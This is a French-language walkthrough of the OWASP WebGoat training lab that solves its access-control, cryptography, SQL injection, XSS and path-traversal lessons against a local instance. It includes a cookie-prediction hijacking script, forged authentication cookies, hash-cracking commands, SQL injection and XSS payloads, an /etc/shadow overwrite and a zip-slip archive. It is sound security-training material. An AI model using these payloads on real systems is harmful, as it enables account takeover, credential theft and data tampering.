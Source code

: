 
# Découverte OWASP

# **Découverte des vulnérabilités référencées par l’OWASP**

Dans ce document nous découvrirons un ensemble de vulnérabilités classées par l’OWASP et leur détection dans le cadre d’un « pen-testing ».

L'OWASP (Open Worldwide Application Security Project) est une association mettant en avant les différentes failles connues sur les applications (principalement web) et les moyens de s'en protéger. L'organisme effectue un classement régulier des vulnérabilités les plus exploitées sur Internet pour former les testeurs de sécurité à leur détection et les développeurs à leur compréhension et à la correction du code.

L'OWASP propose divers projets, et nous nous intéresserons ici au sujet principal : le classement des **10 vulnérabilités les plus exploitées sur Internet**. Pour effectuer cette étude, nous nous baserons sur le site officiel de l'OWASP et sur une application répertoriant des exemples des différents types de vulnérabilités étudiées. L’application WebGoat est ainsi développée par l’OWASP pour comprendre les différents types de vulnérabilités et leurs impacts.

Nous travaillerons ainsi sur les **5 premières vulnérabilités** du top 10 de l'OWASP (version 2021, car ce classement est actualisé tous les 4 ans).

**Les vulnérabilités de l’OWASP**

L'OWASP classe les vulnérabilités en catégories spécifiques :

- **A01:2021 - Broken Access Control**
- **A02:2021 - Cryptographic Failures**
- **A03:2021 - Injection**
- **A05:2021 - Security Misconfiguration**

    Chacune de ces catégories correspond à un ensemble de « faiblesses » **CWE (Common Weakness Enumeration)** qui définissent des causes probables de vulnérabilités futures.

L'organisation à but non lucratif **MITRE** est à l'origine des classifications des différentes faiblesses, dans le but de définir les vulnérabilités connues à surveiller en urgence : les **CVE (Common Vulnerability and Exposure / Common Vulnerability Enumeration)**.



>En 1999, MITRE a établi une classification des menaces permettant de se protéger et de configurer les équipements IDS pour prévenir l'exploitation des menaces récentes sur les systèmes d'information.

- Les CVE possèdent un identifiant unique permettant de retrouver une vulnérabilité et un contexte précis d’exploitation (version du programme touché, système d’exploitation touché, CWE liées à ce type de vulnérabilité, risques encourus)
- Les CWE classent de manière générique les types de vulnérabilité et leurs impacts sur les systèmes touchés.

Ce document n’étant pas un remplaçant du site officiel de l’OWASP, celui-ci devra être utilisé tout au long de l’étude pour comprendre les différentes implications des vulnérabilité et faiblesses étudiées.

Nous étudierons ici les outils utiles à la réalisation des test effectués dans l’application WebGoat. Ainsi que quelques astuces vous permettant de progresser dans cet apprentissage.

Installation de l’application WebGoat

J’utiliserais ici l’application dans un conteneur sur une machine Kali Linux pour avoir à portée de main les différents outils permettant de tester mon application.

```bash
apt install docker.io
docker pull webgoat/webgoat
docker create -ti —name webgoat -p 8080:8080 -p 9090:9090 -e TZ=Europe/Paris webgoat/webgoat

```

Pour les premières leçons de l’application WebGoat, vous aurez besoin d’utiliser les outils de développeur de votre navigateur, en appuyant sur la touche f12 de votre clavier une partie outils développeurs apparaît sur la page.

![images/image1.png](images/image1.png)

1. (A1) Broken Access Control
    
    <aside>
    
    *Hijack a session*
    
    > Le session Hijacking est le fait de voler la session d’un autre utilisateur, il repose la plupart du temps sur l’utilisation d’un moyen d’authentification autre que le nom et le mot de passe de l’utilisateur (comme un cookie d’authentification).
    >
    <details>
    <summary>- Hijack a session - 5</summary>
        
   Dans la partie storage vous trouverez les cookies liés à la page sur laquelle vous vous connectez. Pour la première leçon (Hijack a session) il s’agit de deviner le cookie d’un utilisateur.
        
   Pour réaliser ce challenge je note le cookie récupéré par l’utilisateur julien :
   > 🍪  Hijack_cookie : 999666930232324123-1739829095375
   
   Puis je supprime le cookie et remplie à nouveau le formulaire pour comparer son cookie :
        
   > 🍪  Hijack_cookie : 999666930232324124-1739829895548
        
   En répétant l’opération à de multiple reprises je remarque que certains numéros sont sautés pour le premier nombre. Un cookie a donc été donné à un autre utilisateur, je peux donc utiliser cette valeur comme base pour trouver le cookie de l’utilisateur. En effectuant une recherche sur internet sur la deuxième valeur je constate qu’il s’agit d’un timestamp depuis l’époque unix (1 janvier 1970). Je peux donc tenter la première valeur trouvée en réduisant le timestamp d’une unité depuis que le cookie à été trouvé. En procédant ainsi je suis sûr de pouvoir trouver le cookie d’un utilisateur. Je pourrais donc utiliser le script suivant pour trouver le cookie à coup sûr :
        
   ```bash
        #!/bin/bash
        if [[ -z $1 ]] || [[ -z $2 ]] || [[ -z $3 ]] || [[ -z $4 ]] || [[ -z $5 ]] || [[ -z $6 ]] ; then { 
          echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        	echo "-s JSESSIONID"
        	echo "-u username"
        	echo "-p password"
        	echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        	exit 1
        }
        fi
        options="$1 $3 $5"
        case $options in
        	"-s -u -p")
        			session=$2
        			user=$4
        			password=$6
        			;;
        	"-s -p -u")
        			session=$2
        			user=$6
        			password=$4
        			;;
        	"-u -s -p")
        			session=$4
        			user=$2
        			password=$6
        			;;
        	"-u -p -s")
        			session=$6
        			user=$2
        			password=$4
        			;;
        	"-p -s -u")
        			session=$4
        			user=$6
        			password=$2
        			;;
        	"-p -u -s")
        			session=$6
        			user=$4
        			password=$2
        			;;
        	*)
        			echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        			echo "-s JSESSIONID"
        			echo "-u username"
        			echo "-p password"
        			echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        			exit 1
        			;;
        esac
        a=0
        jsession=$(curl -si "http://127.0.0.1:8080/WebGoat/login" -d "username=$user&password=$password" -v 2> /dev/null | grep JSESSIONID | cut -d "=" -f 2 | cut -d ";" -f 1)
        while true; do {
        	hijack1=$(curl -si "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=$user&password=password" -b "JSESSIONID=$jsession" -L -v 2> /dev/null| grep hijack_cookie | cut -d "=" -f 2 | cut -d ";" -f 1)
        	#echo "session=$jsession"
        	#echo "cookie=$hijack1"
        	current=$(echo $hijack1 | cut -d "-" -f 1)
        	if (($a != 0 )); then {
        		if [[ $current != $predict ]]; then {
        			echo "actuel: $current, prévu: $predict"
        			time=$(echo $hijack1 | cut -d "-" -f 2)
        			for ((i=0;i<30;i++)); do {
        				jsession=$session
        				time=$(($time - 1))
        				hijack2="$predict-$time"
        				curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L -v 2> /dev/null | grep Sorry > /dev/null
        				if (( $? != 0 )); then {
        					echo "bingo: $hijack2"
        					curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L
        					break
        				}
        				fi
        			}
        			done
        			break
        		}
        		fi
        	}
        	fi
        	predict=$(($current + 1))
        	a=1
        }
        done
   ```
        
   Le script se connecte au serveur avec les identifiants entrés à l’exécution puis récupère un hijack_cookie auprès du serveur, il incrémente ensuite le permier nombre pour prédire la valeur du prochain cookie. Si le prochain cookie possède la valeur prévue il recommence l’opération jusqu’à ce que le cookie obtenu ne soit pas celui qui était prévu. A partir du moment ou ce cookie est identifié on décrémente la valeur du deuxième nombre (le timestamp) d’une unité pour trouver le cookie attendu.
        
   L’opération est répétée une trentaine de fois ce qui était suffisant lors de mes tests.
        
    </aside>
    </details>    
    <aside>
    
    *Insecure Direct Object Reference*
    
    > L’IDOR est un type de vulnérabilité permettant à un attaquant d’utiliser une information propre à un utilisateur pour pouvoir accéder aux données d’autres utilisateurs ( il s’agit la plupart du temps d’un identifiant lié à l’utilisateur connecté).
    > 
    
    > Pour cette partie  j’utiliserais le logiciel ZAP (Zed Attack Proxy) créé par l’OWASP. Ce logiciel agit comme serveur proxy et permet d’intercepter les connexions pour les analyser, ou les répéter avec des paramètres différents. Je serais ainsi capable de modifier les requêtes et pour tromper le serveur web sur lequel je me connecte.
    > 
    > 
    > Une fois lancé j’utiliserai le navigateur intégré à Zaproxy pour me connecter à webgoat.
    > 
    > ![images/image2.png](images/image2.png)
    >
    <details> 
    <summary> Insecure Direct Object References - 3 </summary>
        
   Dans zap je peux observer la réponse reçue :
        
   ![images/image3.png](images/image3.png)
    </details> 
    <details>
    <summary> Insecure Direct Object References - 5 part 1 </summary>
        
   je récupère la requête avec zap et la répète pour en modifier le contenu :
        
   ![images/image4.png](images/image4.png)
        
   Je choisirais Open/Resend with Request Editor pour modifier la requête :
        
   ![images/image5.png](images/image5.png)
        
   Puis en testant plusieurs identifiant utilisateurs en décrémentant et incrémentant l’identifiant de tom je trouve celui de l’utilisateur Buffalo Bill.
     </details>
    <details>
    <summary> Insecure Direct Object References - 5 part 2 </summary>
        
   Pour la dernière partie l’objectif étant de modifier la requête http nous devons trouver un moyen d’envoyer des modifications, je modifie donc la méthode de la requête http :
        
   ![images/image6.png](images/image6.png)
        
   Ici la méthode POST n’est pas autorisée mais je découvre 2 méthodes : PUT et GET qui sont autorisées. Je teste donc avec la méthode PUT :
        
   ![images/image7.png](images/image7.png)
        
   Cette fois le media-type n’est pas autorisé mais le content-type est application/json, je le modifie donc et tente d’envoyer les modifications demandées :
        
   ![images/image8.png](images/image8.png)
        
   Le profile de l’utilisateur Buffalo Bill est modifié.
     </details>     
    </aside>
    
    <aside>
    
    *Missing Function Level Access Control*
    
    > Il s’agit toutes les fonctions, autres que l’IDOR. Permettant à un utilisateur d’obtenir des accès au données ou aux droits d’autres utilisateurs.
    >
    <details> 
    <summary> Missing Function Level Access Control - 2 </summary>
        
   Nous devons trouver un menu caché, pour cela nous pouvons utiliser les outils développeurs web du navigateur:
        
   ![images/image9.png](images/image9.png)
        
   Nous découvrirons ici 2 catégories cachées dans la page (attention elles sont sensibles à la casse)
     </details>
     <details>
    <summary> Missing Function Level Access Control - 3 </summary>
        
   En utilisant à nouveau zaproxy je tente de faire un get sur la page users trouvée précédemment 
        
   ![images/image10.png](images/image10.png)
        
   A nouveau le type d’application ne semble pas correspondre (je modifierais pour application/json :
        
   ![images/image11.png](images/image11.png)
        
   La liste des utilisateurs récupérée j’obtiens le hash de l’utilisateur jerry.
     </details>
     <details>
    <summary> Missing Function Level Access Control - 4 </summary>
        
   Dans la dernière partie les développeurs ont corrigé le problème en autorisant seulement les administrateurs à accéder aux informations. J’utiliserais donc une technique semblable à celle utilisée dans la leçon sur l’IDOR pour obtenir les droits administrateurs :
        
   ![images/image12.png](images/image12.png)
        
   La requête semble fonctionner mais le password n’est pas pris en compte :
        
   ![images/image13.png](images/image13.png)
        
   N’ayant pas d’accès à la page users-admin-fix je passe le compte julien que j’utilise pour effectuer l’élévation de privilèges :
        
   ![images/image14.png](images/image14.png)
        
   La page users-admin-fix devient accessible :
        
   ![images/image15.png](images/image15.png)
     </details>     
    </aside>
    
    <aside>
    
    *Spoofing an Authentication Cookie*
    
    > Dans cette partie il s’agira de deviner la méthode utilisée pour créer des cookies d’authentification et de l’utiliser pour se créer un cookie valable pour se connecter avec les droits d’un autre utilisateur.
    >
    <details> 
    <summary> Spoofing an Authentication Cookie - 2 </summary>
        
   J’observe le cookie spoof_auth obtenu et remarque qu’il semble être en encodage base64, je tente donc de le décoder :
        
   ```bash
        echo "NDM2YzdhNTU3NzYxNTk0ZjY3NzA3NDYxNmY2NzYyNjU3Nw==" | base64 -d
        436c7a557761594f677074616f67626577
   ```
        
   Le résultat semble être un code hexadécimal :
        
   ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p
        ClzUwaYOgptaogbew
   ```
        
   J’observe la présence du login/motdepasse présent dans la chaîne de caractère produite en inversé :
        
   ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p | rev
        webgoatpgOYawUzlC
   ```
        
   Je vérifie avec le login admin et constate le même résultat, il me suffit donc d’inverser le procéder pour créer un cookie pour n’importe quel utilisateur dont je connais le login :
        
   ```bash
        echo -n tompgOYawUzlC | rev | xxd -p | base64 NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQK
   ```
        
   Suite à différents test je me rend compte qu’un retour à la ligne corromps la chaîne de caractère je supprime donc le retour à la ligne avant d’encoder en base64 :
        
   ```bash
        echo -n "tompgOYawUzlC" | rev | xxd -p| tr -d '\n'|base64
        NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQ=
   ```
     </details>     
    </aside>
    
2. (A2) Cryptographic Failures
    
    <aside>
    
    *Crypto Basics*
    
    > Les méthodes de chiffrement, encodage, et hachage sont couramment utilisées par les application pour authentifier les utilisateurs , transmettre leurs données et les sécuriser. Pourtant les méthodes utilisée peuvent ne pas être adaptées et conduire à une compromission des données. De même les technologies utilisées doivent faire l’objet d’une veille constante et être mises à jour dès que nécessaire.
    >
    <details>
    <summary> Crypto Basics - 3 </summary>
        
   J’utiliserai CyberChef sur internet :
        
   ![images/image16.png](images/image16.png)
        
   Ici je tente de bruteforcer le ou exclusif pour récupérer le mot de passe après avoir décoder les caractères en base64. En effet l’opération « ou exclusif » s’exécute en binaire et peut convertir certains caractères dans des code binaire non interprétables par un terminal, le résultat de l’opération est donc encodé en base64(attention le mot de passe trouvé n’est pas dans la casse attendue par le formulaire).
   <details>
    <summary> Crypto Basics - 4 </summary>
        
   je choisirais ici le programme hashcat pour pouvoir cracker le hash proposé :
        
   ```bash
        hashid -m '21232F297A57A5A743894A0E4A801FC3'
        hashcat -m 0 '21232F297A57A5A743894A0E4A801FC3' /usr/share/wordlists/rockyou.txt 
   ```
        
   ```bash
        hashid -m '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9'
        hashcat -m 1400 '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9' /usr/share/wordlists/rockyou.txt
        
   ```
   </details>
   <details>
    <summary> Crypto Basics - 6 </summary>
        
   J’ enregistre la clé privée donnée dans fichier nommé private.rsa , puis je génère une clé publique correspondante :
        
   ```bash
        openssl rsa -in private.rsa -pubout > pub.rsa
   ```
        
   depuis la clé publique j’extrait le modulus :
        
   ```bash
        openssl rsa -in pub.rsa -pubin -modulus -noout | cut -d "=" -f 2 > modulus.txt
   ```
        
   puis je sign le modulus en sha256 en utilisant la clé privée :
        
   ```bash
        cat modulus.txt | tr -d '\n' | openssl dgst -sha256 -sign private.rsa | base64
   ```
     </details>
     <details>
    <summary> Crypto Basics - 8 </summary>
        
   J’extrais le fichier shadow du conteneur pour obtenir le droit d’accès sur le fichier puis je déchiffre le message grâce à la passphrase :
        
   ```bash
        docker cp youthful_hodgkin:/etc/shadow .
        pass=$(openssl passwd -6 poseidon) && sed -i "/root/ s/\*/$pass/" shadow
        docker cp shadow youthful_hodgkin:/etc/shadow
        docker exec -ti youthful_hodgkin bash
        su –
        cat default_secret
        echo "U2FsdGVkX199jgh5oANElFdtCxIEvdEvciLi+v+5loE+VCuy6Ii0b+5byb5DXp32RPmT02Ek1p f55ctQN+DHbwCPiVRfFQamDmbHBUpD7as=" | openssl enc -aes-256-cbc -d -a -k ThisIsMySecretPassw0rdF0rY0u
        
   ```
        
    </aside>
    
3. (A3) Injection
    
    <aside>
    
    *SQL Injection (intro)*
    
    > L’injection SQL est un type de vulnérabilité permettant à un attaquant de sortir du cadre prévu par l’application pour interroger sa base de données. Il devient possible (la plupart du temps par le biais de formulaires html dont les entrées ne sont pas assez restrictives) d’accéder à d’autres informations stockées dans la base de donnée, voir de les modifier.
    >
    <details> 
    <summary> SQL Injection (intro) - 10 </summary>
        
   Après différents essais le champs login_count ne semble pas vulnérable aux injections SQL, mais User_Id peut être injecté :
        
   ![images/image17.png](images/image17.png)
     </details>
     <details>
    <summary> SQL Injection (intro) - 11 </summary>
        
   Le même principe est utilisable dans cette leçon en utilisant les commentaires sql :
        
   ![images/image18.png](images/image18.png)
     </details>
     <details>
    <summary> SQL Injection (intro) - 12 </summary>
        
   Nous utiliserons le même concept mais en ajoutant cette fois une commande de mise à jour de la table :
        
   ```sql
        'update employees set salary=91000 where userid=37648; --
   ```
     </details>
     <details>
    <summary> SQL Injection (intro) - 13 </summary>
        
   Nous utiliserons le même principe d’enchaînement des requêtes pour supprimer la table des logs :
        
   ![images/image19.png](images/image19.png)
     </details>    
    </aside>
    
    <aside>
    
    *SQL Injection (advanced)*
    <details>
    <summary> SQL Injection (advanced) - 3 </summary>
        
   ```sql
        ';select * from user_system_data; --
   ```
        
   En essayant de réaliser l’injection suivante :
        
   ```sql
        ' union select password from user_system_data –
   ```
        
   Je remarque que le nombre de colonnes ne correspond pas :
        
   ![images/image20.png](images/image20.png)
        
   Il faudra donc faire correspondre le nombre de colonne de la deuxième requête avec la première (une * donc toutes les colonnes de la première table) :
        
   ```sql
        ' union select null,password,user_name,null,null,null,null from user_system_data –
   ```
        
   ![images/image21.png](images/image21.png)
     </details>
     <details>
    <summary> SQL Injection (advanced) - 5 </summary>
        
   J’utiliserais l’outil sqlmap pour tester les différents types d’injection sql disponibles, après avoir testé les pages challenge_login et challenge deux injection sont possibles sur le paramètre username_reg :
        
   ```bash
        sqlmap -u http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge --data="username_reg=test&email_reg=bob%40mail.com&password_reg=po&confirm_p assword_reg=test" --cookie="JSESSIONID=0txqnMhhofk6DP1OdGeKIItd8yPCW95jNQUolcwn" --method PUT --level 5 --risk 3 -p username_reg
   ```
        
   ![images/image22.png](images/image22.png)
        
   En utilisant la technique boolean-based blind j’arrive à déterminer si une requête sql obtient une réponse positive ou non :
        
   ![images/image23.png](images/image23.png)
        
   Ici le résultat de la requête n’est pas considérée comme vraie , il n’y a donc pas de conflit avec un utilisateur existant, le système considère qu’il peut créer le compte.
        
   En effectuant un test avec les différentes lettres je trouve celle-ci :
        
   ![images/image24.png](images/image24.png)
        
   Cette fois le retour de la requête est positif, la première lettre du mot de passe est un t. Il suffit dont de tester les différentes lettres pour trouver le mot de passe complet.
        
   Pour cela j’utiliserais le programme burpsuite en forçant les caractères à utiliser dans ce paramètre. La fonctionnalité intruder de burp permettra d’effectuer cette manipulation.
        
   Burp joue le rôle de proxy tout comme zap et je l’utiliserais dans un premier temps pour capturer le trafique envoyé par mon navigateur (attention de bien gérer les paramètres de proxy du navigateur, les ports à utiliser puisque WebGoat utilise le port 8080 qui est aussi celui par défaut de burp, de plus il faut penser que le navigateur n’utilise pas de proxy pour se connecter à une adresse en 127.0.0.1, il faudra donc utiliser l’adresse IP de la machine hôte pour pouvoir se connecter à l’interface de webgoat).
        
   ![images/image25.png](images/image25.png)
        
   Je choisi ensuite d’envoyer cette requête vers l’intruder :
        
   ![images/image26.png](images/image26.png)
        
   Puis je modifie la requête pour envoyer différents paramètres à la chaîne :
        
   ![images/image27.png](images/image27.png)
        
   Le paramètre username_reg test ici si la longueur du mot de passe est égale à num (ce qui ne peut pas être vrai puisqu’on fait ici une comparaison entre un entier et une chaîne de caractères. Attention pour que la requête puisse être envoyée il faudra convertir la valeur du paramètre en encodage url :
        
   ![images/image28.png](images/image28.png)
        
   Et il ne reste plus qu’a sélectionner le paramètre à tester en choisissant « add payload position »:
        
   ![images/image29.png](images/image29.png)
        
   Un panneau de paramétrage de la payload apparaît, je choisis des nombres à incrémenter de 1 entre 1 et 50 pour déterminer la longueur du mot de passe de tom :
        
   ![images/image30.png](images/image30.png)
        
   Dans la partie settings j’ajoute un Grep – Match avec une expression présente dans la réponse à ma requête si le résultat est vrai (User {0} already exists …), je choisi ici le mot exists :
        
   ![images/image31.png](images/image31.png)
        
   Il ne me reste plus qu’à lancer l’attaque et à observer la colonne exists :
        
   ![images/image32.png](images/image32.png)
        
   Le mot de passe à donc 23 caractères.
        
   Il est possible cumuler deux payload avec burp intruder pour tester les différentes combinaisons de caractères pour la première lettre du mot de passe, puis toutes les combinaisons de caractères pour la deuxième lettre et ainsi de suite pour les 23 caractères du mot de passe. Pour cela je choisi un type d’attaque Cluster bomb attack, puis je désigne la partie position de substring comme étant un nombre incrémenté de 1 entre 1 et 23 :
        
   ![images/image33.png](images/image33.png)
        
   Je paramètre ensuite la deuxième payload comme étant un caractère entre a et z (ma requête analyse seulement les caractères en minuscule pour gagner du temps, il sera ensuite possible de tester la casse une fois le mot de passe connu) :
        
   ![images/image34.png](images/image34.png)
        
   Il n’y a plus qu’a lancer l’attaque et voir si nous récupérons une partie des 23 caractères (si certains caractères manquent nous pourrons tester les caractères spéciaux et nombres) :
        
   ![images/image35.png](images/image35.png)
        
   Quand l’attaque est finie nous optenons le mot de passe :
        
   thisisasecretfortomonly
     </details>
    </aside>
    
    <aside>
    
    *Cross Site Scripting*
    
    > Le XSS (Cross Site Scripting), consiste à injecter (la plupart du temps dans un formulaire, mais l’injection pourrais aussi se faire dans les entêtes html, les cookies etc.) un script javascript exécuté sur la machine d’un client. Il est ainsi possible d’exécuter du code sur la machine d’un autre utilisateur se connectant au site vulnérable. La plupart du temps le code exécuté sur la machine de la victime visera à lui voler des informations d’authentification stockées dans les cookies par exemple.
    On distinguera ici les XSS nécessitant de tromper l’utilisateur en lui envoyant un lien générant du code malveillant et une Stored XSS étant stockée dans la base de donnée du server, ou ses fichiers.
    >
    <details>
    <summary> Cross Site Scripting - 7 </summary>
        
   Nous pouvons tester d’envoyer le code :
        
   ```jsx
        <script> alert("hello")</script>
   ```
        
   Dans les différentes parties du formulaire. Si une fenêtre apparaît en indiquant le message hello, vous avez trouvé le champ vulnérable.
     </details>
     <details>
    <summary> Cross Site Scripting - 10 </summary>
        
   en analysant le code GoatRouter.js dans la partie debugger de la console developer du navigateur on trouve une route test
     </details>
     <details>
    <summary> Cross Site Scripting - 11 </summary>
        
   en allant dans un nouvel onglet et en appelant :
   [http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test](http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test/)/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
        
   Un message contenant un numéro s’affiche dans la console du navigateur
        
   Le message envoyé à la route test est :
        
   ```jsx
        <script>webgoat.customjs.phoneHome()</script>
   ```
        
   Mais les caractères spéciaux sont encodés pour être correctement interprétés par le navigateur.
     </details>     
    </aside>
    
    <aside>
    
    *Cross Site Scripting (stored)*
    <details>
    <summary> Cross Site Scripting (stored) - 3 </summary>
        
   Nous pourrons directement inclure notre payload sans avoir besoin de l’encoder, cette fois la payload est sauvegardée dans les données du site (certainement dans une base de donnée) et dès qu’un utilisateur accède à la page le script est exécuté.
   </details>     
    </aside>
    
    <aside>
    
    *Path traversal*
    
    > La Path traversal est un type de vulnérabilité permettant à l'attaquant de changer l’endroit ou les données d’un serveur web sont lues ou écrites. Il devient ainsi possible pour l’attaquant de lire des fichiers qui n’appartiennent pas au champs de l’application concernée, voir de modifier des fichiers systèmes.
    >
    <details>
    <summary> Path traversal - 2 </summary>
        
   Nous devons envoyer une image sur le serveur lorsque le formulaire est utilisé normalement nous avons :
        
   ![images/image36.png](images/image36.png)
        
   On peut remarque que le nom choisi apparaît dans le chemin de stockage de l’image, nous pouvons influer sur le chemin en changeant le nom pour ../hello
     </details>
     <details>
    <summary> Path traversal - 4 </summary>
        
   Le problème à ici été corrigé.
   Le nom n’apparaît plus dans le chemin de stockage de l’image, mais le nom de l’image lui-même est utilisé tel quel. Nous pouvons donc modifier le nom de l’image pour choisir sa destination. J’utiliserais ici la fonction répéteur de burp pour modifier le nom de l’image :
        
   ![images/image37.png](images/image37.png)
     </details>
     <details>
    <summary> Path traversal - 5 </summary>
        
   En analysant les requêtes avec burp on trouve l’url :
        
   le paramètre id=10 permet d’exploiter un path traversal à l’aide d’encodage url : 
        
   ```bash
        /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret
   ```
        
   Le .jpg est ajouté automatiquement à chaque requête
     </details>
     <details>
    <summary> Path traversal - 7 </summary>
        
   Pour cette dernière partie le chemin de l’image qui est contenu dans le fichier zip doit contenir le path traversal. Ici il faudra recréer le chemin que nous voulons écraser :
   ```bash
   mkdir -p challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/ 
   ```
   copier une image dans le dernier répertoire     
   ```bash
        ls challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/
        image.jpg
   ```
   puis rentrer dans deux niveaux de répertoires :
   ```bash
        cd challenge7/home
   ```
   enfin compresser l’image avec un chemin relatif :
   ```bash
        zip file.zip ../../home/webgoat/.webgoat-2023.8/PathTraversal/julien/image.jpg
   ```
        
   En envoyant le fichier zip l’image extraite le sera à l’endroit choisi !
   </details>     
    </aside> 
